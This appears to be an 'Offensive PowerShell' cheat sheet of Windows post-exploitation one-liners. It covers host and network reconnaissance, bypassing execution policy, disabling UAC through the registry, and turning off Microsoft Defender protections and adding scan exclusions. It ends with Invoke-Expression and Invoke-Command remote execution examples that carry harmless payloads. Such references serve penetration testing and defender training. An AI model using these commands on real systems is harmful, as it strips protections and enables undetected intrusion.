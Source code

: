 # Offensive PowerShell

\# Cmdlet Help  
`Get-Help <CMDLET>`  
\# List all running processes  
`Get-Process`  
\# Execution Policy Information  
`Get-ExecutionPolicy -List`  
\# Allow unsigned scripts execution for the current user  
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`  
`powershell -ep bypass`  
\# Get UAC Configuration  
`Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object -Property EnableLUA,ConsentPromptBehaviorAdmin`  
(EnableLUA = UAC [0 = False, 1 = True], ConsentPromptBehaviorAdmin = Prompt Behavior [0-5])  
\# Disable UAC (requires admin)  
`cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"`  
\# Get Current Computer Information  
`Get-ComputerInfo -Property CsName,WindowsVersion,WindowsBuildLabEx,WindowsEditionId,OsArchitecture,CsProcessors,CsTotalPhysicalMemory`  
\# Get Network Interfaces Information  
`Get-NetAdapter`  
`Get-NetIPAddress`  
`Get-NetIPConfiguration`  
\# Get Local Users Information  
`Get-LocalUser | Select-Object Name,SID,Enabled,LastLogon,Created,Modified`  
\# Get Local Groups Information  
`Get-LocalGroup`  
`Get-LocalGroupMember -Group <GROUP NAME>`  
\# Get Firewall Information  
` Get-NetFirewallProfile`  
\# Get Windows Defender Status  
`Get-MpComputerStatus | Select AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,AntispywareEnabled,IsTamperProtected`  
`Get-MpPreference` (some items require admin access to display information)  
\# List other AV Products  
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`  
`'0x{0:x}' -f <ProductState>`  (10 from the 4th number position = on)  
\# Disables realtime monitoring (requires admin)    
`Set-MpPreference -DisableRealtimeMonitoring $true`  
\# Disables scanning for downloaded files or attachments (requires admin)    
`Set-MpPreference -DisableIOAVProtection $true`  
\# Disable behaviour monitoring (requires admin)    
`Set-MPPreference -DisableBehaviourMonitoring $true`  
\# Make exclusion for a certain folder (requires admin)    
`Add-MpPreference -ExclusionPath "C:\Windows\Temp"`  
\# Disables cloud detection (requires admin)    
`Set-MPPreference -DisableBlockAtFirstSeen $true`  
\# Disables scanning of .pst and other email formats (requires admin)    
`Set-MPPreference -DisableEmailScanning $true`  
\# Disables script scanning during malware scans (requires admin)    
`Set-MPPReference -DisableScriptScanning $true`  
\# Exclude files by extension (requires admin)  
`Set-MpPreference -ExclusionExtension "ps1"`  
\# Code Injection - Invoke-Expression  
`$<STRING> = 'Write-Output "Test text!"'`  
`Invoke-Expression $<STRING>`  
\# Remote Code Execution - Invoke-Command  
`$computer = "<COMPUTER>"`  
`$creds = Get-Credential`  
`$script = { Write-Output "Test text!" }`  
`Invoke-Command -ComputerName $computer -Credential $creds -ScriptBlock $script`  
